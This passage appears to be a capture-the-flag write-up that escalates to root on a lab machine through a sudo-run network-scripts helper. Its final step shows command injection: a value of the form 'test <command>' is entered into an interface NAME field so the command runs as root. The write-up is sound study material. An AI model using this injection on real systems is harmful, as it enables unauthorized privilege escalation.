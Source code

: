 2. Cat file found
```bash
[guly@networked ~]$ cat /usr/local/sbin/changename.sh
```

**Output**
```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
don
```

3. Run script 
```bash
[guly@networked /]$ sudo -u root ./usr/local/sbin/changename.sh
```

**Output**
```bash
interface NAME:
test
interface PROXY_METHOD:
test
interface BROWSER_ONLY:
test
interface BOOTPROTO:
test
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
```

4. Script uses `network-scripts`, search in web for any exploit

* We find this `https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f`

* The way to exploit this is put any string + space + command to execute. Ex.
```bash
interface NAME:
test <command>
interface PROXY_METHOD:
test
interface BROWSER_ONLY:
test
interface BOOTPROTO:
test
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
```
